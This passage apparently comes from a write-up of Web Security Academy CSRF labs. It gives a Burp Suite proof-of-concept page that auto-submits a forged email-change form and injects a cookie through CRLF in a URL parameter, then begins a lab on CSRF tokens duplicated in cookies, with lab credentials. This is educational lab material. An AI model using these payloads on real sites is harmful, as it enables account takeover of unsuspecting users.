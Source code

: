 ```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="A3SRAhW10ulYAujS4LqoGMSAbVtJR1WY" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://id.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=DeXLkdkNhCEpCDz5WHWqsRmLrAI6X3wz%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

Deliver the exploit to victim to solve the lab.

![image](https://github.com/user-attachments/assets/e294f659-c2c8-4215-b246-0c57d1cbb706)


---

### LAB 6 - CSRF where token is duplicated in cookie

### Lab Description

![image](https://github.com/user-attachments/assets/0c307fd8-5119-4693-80bb-2bc58d6947ba)

### Solution

When we login as wiener using the credentials `wiener:peter` , we can see that there is an option to update email.

![image](https://github.com/user-attachments/assets/47e76222-3a4a-466a-b345-bc005d6a62b7)


I accessed the lab and logged into the test account. I intercepted the **Update Email** functionality to analyze the CSRF defenses implemented in the application.

I observed that the same CSRF value was being used both in the request body as a token and in the `csrf` cookie.

![image](https://github.com/user-attachments/assets/dd1eb4e0-2565-4d6d-a8b0-3756710f7374)


---

## Testing CSRF Validation

To test how the application validated CSRF data:

- I removed a few characters from the CSRF **token** → the request failed.
- I removed a few characters from the CSRF **cookie** → the request also failed.
- Then, I removed the same characters from **both the cookie csrf and the token csrf ** → the request was successful.
